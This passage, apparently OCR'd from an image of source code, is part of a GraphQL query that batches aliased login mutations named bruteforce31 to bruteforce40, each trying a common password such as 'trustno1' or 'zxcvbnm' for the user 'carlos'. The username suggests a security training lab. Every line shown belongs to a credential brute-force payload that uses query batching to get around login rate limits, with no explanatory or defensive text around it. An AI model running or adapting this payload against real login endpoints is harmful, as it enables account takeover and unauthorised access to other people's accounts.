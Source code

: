 ```
    }


bruteforce31:login(input:{password: "123qwe", username: "carlos"}) {
        token
        success
    }


bruteforce32:login(input:{password: "killer", username: "carlos"}) {
        token
        success
    }


bruteforce33:login(input:{password: "trustno1", username: "carlos"}) {
        token
        success
    }


bruteforce34:login(input:{password: "jordan", username: "carlos"}) {
        token
        success
    }


bruteforce35:login(input:{password: "jennifer", username: "carlos"}) {
        token
        success
    }


bruteforce36:login(input:{password: "zxcvbnm", username: "carlos"}) {
        token
        success
    }


bruteforce37:login(input:{password: "asdfgh", username: "carlos"}) {
        token
        success
    }


bruteforce38:login(input:{password: "hunter", username: "carlos"}) {
        token
        success
    }


bruteforce39:login(input:{password: "buster", username: "carlos"}) {
        token
        success
    }


bruteforce40:login(input:{password: "soccer", username: "carlos"}) {
        token
        success
    }


```